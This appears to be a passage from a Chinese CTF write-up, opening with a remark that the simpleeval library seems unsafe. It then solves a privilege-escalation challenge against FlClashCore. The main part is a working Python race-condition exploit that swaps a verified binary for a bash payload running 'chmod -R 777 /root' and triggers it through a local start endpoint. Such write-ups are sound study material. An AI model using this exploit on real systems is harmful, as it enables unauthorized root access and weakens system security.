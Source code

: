 题外话：阅读simpleeval的文档时，闻着味就觉得不太对。不支持列表和字典字面量，却支持作为变量调用其上方法；names和functions分开，能用names传入函数却调用不了。看起来也是个可以出漏洞题的不安全库。

## 提权潜兵 · 新指导版

### 清凉

阅读补丁，从校验SHA到执行之间隔了不短的一段时间。先把FlClashCore复制一份以便修改：

```sh
cp FlClashCore core
```

反复修改运行目标文件，试图使其在校验时是原版FlClashCore，运行前被修改为获取flag的程序，不断尝试直到成功为止。

```py
# cat | python3
import os
import time
import random
import requests
import threading

a = b'''#!/bin/bash
touch /tmp/ok
chmod -R 777 /root
touch /tmp/done
exit
'''
with open('/tmp/core', 'rb') as f:
    b = f.read(len(a))
assert len(a) == len(b)

def offmain():
    while True:
        print(time.time(), 'attempt to start clash')
        requests.post('http://127.0.0.1:47890/start',
            json={'path': '/tmp/core','arg': f'/tmp/{random.random()}'})
threading.Thread(target=offmain).start()

while True:
    try:
        with open('/tmp/core', 'rb+') as f:
            f.write(a)
    except:
        pass
    a, b = b, a
    time.sleep(0.000001)
    if os.path.exists('/tmp/ok'):
        print('OK!')
        exit()
```
